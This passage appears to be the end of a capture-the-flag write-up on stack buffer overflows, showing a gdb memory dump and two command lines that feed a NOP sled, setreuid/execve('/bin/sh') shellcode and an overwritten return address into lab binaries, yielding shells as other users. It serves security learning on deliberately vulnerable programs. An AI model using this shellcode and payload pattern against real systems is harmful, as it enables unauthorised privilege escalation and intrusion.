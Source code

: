 ```
0x7fffffffe398: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffe3a8: 0x00000000      0x00000000      0x00000000      0x00000000
```
The nop starts at '0x7fffffffe248' we can use this address or anywhere before the shell code starts.

*Outside of gdb*
```
./buffer-overflow $(python -c "print('\x90'*80 + '\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEA\x03\x66\xBF\xEA\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05' + 'A'*10 + '\x98\xe2\xff\xff\xff\x7f')")
Here's a program that echo's out your input
��������������������������������������������������������������������������������H1�H1�H1�f��f���qH1�H��/bin/shH�SH��H1�PWH���;j_j<XAAAAAAAAAA�����
sh-4.2$ whoami
user2
```

Hurray!!!!!

### Getting better
For the another task follow the above step again.

```
./buffer-overflow-2 $(python -c "print '\x90'*89+'\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEB\x03\x66\xBF\xEB\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")
new word is doggo�����������������������������������������������������������������������������������������H1�H1�H1�f��f���qH1�H��/bin/shH�SH��H1�PWH���;j_j<XAAAAAAAAAAAA�����
sh-4.2$ whoami
user3
```

References:
1. https://rayoflightz.github.io/linux/assembly/2019/03/26/Binary-patching-using-radare2.html
2. https://l1ge.github.io/tryhackme_bof1/
3. http://exploit.education/protostar/stack-zero/
4. http://exploit.education/protostar/

BYE!!!

